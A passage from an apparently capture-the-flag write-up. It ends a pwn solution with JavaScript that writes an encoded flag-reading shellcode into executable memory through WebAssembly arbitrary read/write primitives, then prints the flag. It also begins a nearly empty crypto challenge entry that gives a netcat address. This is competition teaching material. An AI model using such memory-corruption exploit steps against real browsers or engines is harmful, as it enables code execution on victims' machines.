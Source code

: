 ```javascript
    0x65646165725f6761n,
    0x6166633662322d72n,
    0x3237386633356439n,
    0x6230396337623435n,
    0x6137316432316462n,
    0x003662n,
];

for (let i = 0; i < exec_flag_reader_shellcode.length; i++) {
    instance.exports.aaw(addr_rwx + BigInt(0xb69-0x9) + BigInt(i * 8), exec_flag_reader_shellcode[i]);
}
instance.exports.aar(trusted_data_addr, 1n);
```
{% endcode %}

{% hint style="success" %}
Flag: _**CJ{gg:::\_\_:\_\_\_::\_LINZ\_IS\_HERE}**_
{% endhint %}

## Cryptology

### Description

> super secure encryption using C++! (again!)
>
> `nc 68.183.177.211 10020`
>
> Author: **Zafirr**

### Analysis

i hate crypto

### Exploitation

i hate crypto, even though its just a layer
